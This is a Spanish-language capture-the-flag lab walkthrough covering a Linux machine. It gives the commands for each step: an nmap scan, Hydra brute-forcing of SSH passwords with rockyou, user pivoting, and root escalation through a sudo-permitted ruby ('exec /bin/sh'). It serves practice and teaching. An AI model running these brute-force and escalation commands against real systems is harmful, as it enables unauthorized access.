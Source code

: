 1. Realizamos un [[00. Apuntes/01. Herramientas/NMAP|NMAP]] hacia la IP objetivo:
`nmap -p- -sS -sCV --min-rate 5000 -n -vvv -Pn "IP" -oN "NombreFichero"`

2. Observamos los Puertos 22 (SSH) y 80 (HTTP) abiertos:
![[Pasted image 20241118095752.png]]

3. Navegamos a la IP:
- Encontramos lo siguiente en el código fuente:
![[Pasted image 20241118095854.png]]

4.  Probamos haciendo un ataque de fuerza bruta con [[HYDRA]] al SSH del usuario Juan:
`hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://IP`

5.   Al no encontrar resultados lo hacemos con camilo:
`hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://IP`

![[Pasted image 20241118100222.png]]

6.  Accedemos por SSH:
`ssh camilo@172.17.0.2`

7. Al hablar en el mensaje de un correo no vamos a `/var/mail`
![[Pasted image 20241118100656.png]]
- `cd camilo`
- `ls`
![[Pasted image 20241118100832.png]]

- `cat correo.txt`
![[Pasted image 20241118100901.png]]

8. Como el correo lo ha dejado juan probamos a iniciar sesion con su usuario:
`su juan`
- Conseguimos el acceso como juan y nos generamos una bash 
`script /dev/null -c bash`
- Buscamos que puede realizar el usuario con privilegios de root `sudo -l`
![[Pasted image 20241118101406.png]]

9. Escalada de privilegios:
- Buscamos en [[GTFOBINS]] ruby
- Encontramos el comando para la escalada de privilegios ````
sudo ruby -e 'exec "/bin/sh"'
- Lo ejecutamos
![[Pasted image 20241118101707.png]]




